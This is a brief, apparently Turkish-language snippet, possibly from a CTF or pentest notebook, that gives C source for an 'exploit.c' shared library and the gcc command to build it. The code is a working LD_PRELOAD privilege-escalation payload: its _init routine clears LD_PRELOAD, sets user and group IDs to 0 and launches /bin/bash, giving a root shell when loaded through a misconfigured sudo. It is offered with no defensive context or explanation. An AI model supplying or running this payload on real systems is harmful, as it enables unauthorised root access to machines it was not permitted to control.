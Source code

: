 dosya oluşturma
```bash
exploit.c
```

exploit.c içeriği
``` bash
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
compile for:
```bash
gcc exploit.c -o exploit -fPIC -shared -nostartfiles -w
```

